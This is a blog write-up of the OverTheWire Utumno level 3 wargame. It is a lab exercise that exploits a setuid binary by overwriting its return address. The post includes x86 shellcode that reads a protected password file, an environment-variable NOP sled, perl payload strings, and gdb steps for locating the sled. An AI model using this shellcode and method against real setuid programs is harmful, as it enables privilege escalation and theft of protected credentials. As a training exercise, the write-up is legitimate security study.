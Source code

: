 ```yaml
---
layout: post
title: OverTheWire - Utumno3
---
```


Site: http://overthewire.org/wargames/utumno/ <br>
Level: 3<br>
Situation: ASM Reading Exercise<br><br>

Let’s begin this madness. We start by creating our temp file directory checking our file archtype and the output.

{% highlight bash %}
utumno3@melinda:~$ mkdir /tmp/uh3
utumno3@melinda:~$ cd /tmp/uh3
{% endhighlight %}

{% highlight bash %}
utumno3@melinda:/tmp/uh3$ file /utumno/utumno3
/utumno/utumno3: setuid ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=f08e1d32ab3f918787ecb922b16945e4dfb18383, not stripped
{% endhighlight %}

{% highlight bash %}
utumno3@melinda:/tmp/uh3$ /utumno/utumno3
as
as
^C
{% endhighlight %}

Nothing useful just that we are taking input from the user and nothing left. We are going to go ahead and download the file and open in hopper to get us some information.

![Embeded](/images/utumno/utumno3/graphview1.png)
[FullSize](/images/utumno/utumno3/graphview1.png)

At first glance doesn’t seem like anything too confusing after some investigating we get the general program flow.

![Embeded](/images/utumno/utumno3/graphview2.png)
[FullSize](/images/utumno/utumno3/graphview2.png)

From this we can conclude that the every second character is put into the stack at the position that is computed. 
This is how we can control our EIP.

NOTE: At this point in the challenge I became confused and unable to solve it myself. Unfortunately my math and understanding of bitwise operators is not up to par and I could not conclude the complete solution on my own. After some research I came across a Japanese post talking about the following. 

Here one can read a character, where you can do in v2 modify the return address. To this end, we find the distance v2 and the return address is 0x2c, then fill in the character to v1 should be 0x2c ^ 0, 0x2d ^ 3, 0x2e ^ 6, 0x2f ^ 9. I tried invoke shell, but did not respond, plus cat does not work; so I had to read the file with the shell code

With the following string.

{% highlight perl %}
perl -e 'print "\x2c\xc8\x2e\xd8\x28\xff\x26\xff"' | /utumno/utumno3
{% endhighlight %}
[Source](http://rk700.github.io/writeup/2014/07/16/utumno/)


Obviously this code isn't runnable because it is simply a memory address. If we break it down the shell code we notice that it turns into

{% highlight bash %}
x2c = 44
xc8 = address - part 4
x2e = 46
xd8 = address - part 3
x28 = 40
xff = address - part 2
x26 = 38
xff = address - part 1
{% endhighlight %}

So we know the desired address is 0xffffd8c8, obviously this is pointing to shell code in memory within the stack. However the confusing part is the padding used. The space doesn’t make any sense at least not to me. Although we don't have the understanding we have enough information to create a solution.

We need to create an EGG in our environmental variables to store our shell code.
We are going to reuse the /tmp/b2p reading shell code due to the fact that when I also ran a /bin/sh shell it didn't respond.

{% highlight bash %}
\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x52\x68\x2f\x62\x32\x70\x68\x2f\x74\x6d\x70\x89\xe1\x52\x89\xe2\x51\x53\x89\xe1\xcd\x80
{% endhighlight %}

{% highlight bash %}
utumno3@melinda:/tmp/uh3$ ln -s /etc/utumno_pass/utumno4 /tmp/b2p
{% endhighlight %}

Turning our full script to.

{% highlight bash %}
 ./invoker.sh -e EGG=`perl -e 'print "\x90"x50 . "\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x52\x68\x2f\x62\x32\x70\x68\x2f\x74\x6d\x70\x89\xe1\x52\x89\xe2\x51\x53\x89\xe1\xcd\x80"'` -d /utumno/utumno3
{% endhighlight %}
 
Now we just need to locate our nopsled. 

{% highlight bash %}
(gdb) unset env LINES
(gdb) unset env COLUMNS
(gdb) set dissassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:

-- SNIP --
   0x0804845a <+93>:	movzbl (%eax),%eax
   0x0804845d <+96>:	movsbl %al,%ebx
   0x08048460 <+99>:	call   0x80482d0 <getchar@plt>
   0x08048465 <+104>:	mov    %al,0x20(%esp,%ebx,1)
   0x08048469 <+108>:	addl   $0x1,0x3c(%esp)
   0x0804846e <+113>:	call   0x80482d0 <getchar@plt>
   0x08048473 <+118>:	mov    %eax,0x38(%esp)
   0x08048477 <+122>:	cmpl   $0xffffffff,0x38(%esp)
   0x0804847c <+127>:	je     0x8048485 <main+136>
   0x0804847e <+129>:	cmpl   $0x17,0x3c(%esp)
   0x08048483 <+134>:	jle    0x8048419 <main+28>
   0x08048485 <+136>:	mov    $0x0,%eax
   0x0804848a <+141>:	mov    -0x4(%ebp),%ebx
   0x0804848d <+144>:	leave  
-- SNIP --
{% endhighlight %}

We set a break point on the leave and find our nopsled.

{% highlight bash %}
(gdb) break *0x0804848d
(gdb) find $esp,$esp+600, 0x90909090

-- SNIP --
0xffffdf7a
0xffffdf7b
0xffffdf7c
0xffffdf7d
0xffffdf7e
0xffffdf7f
0xffffdf80
0xffffdf81
0xffffdf82
0xffffdf83
0xffffdf84
0xffffdf85
0xffffdf86
0xffffdf87
0xffffdf88
-- SNIP --

{% endhighlight %}

Just pick the address at random we will use 0xffffdf83. Now just modify our Perl command with the address.

{% highlight bash %}
perl -e 'print "\x2c\x83\x2e\xdf\x28\xff\x26\xff"' > input.txt
{% endhighlight %}

Now we just invoke it.

{% highlight bash %}
 ./invoker.sh -e EGG=`perl -e 'print "\x90"x50 . "\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x52\x68\x2f\x62\x32\x70\x68\x2f\x74\x6d\x70\x89\xe1\x52\x89\xe2\x51\x53\x89\xe1\xcd\x80"'` /utumno/utumno3 < input.txt
[OMITTED]
{% endhighlight %}

There is our password. I do not consider this challenge completed as I did not understand the process involved to get the correct padding values.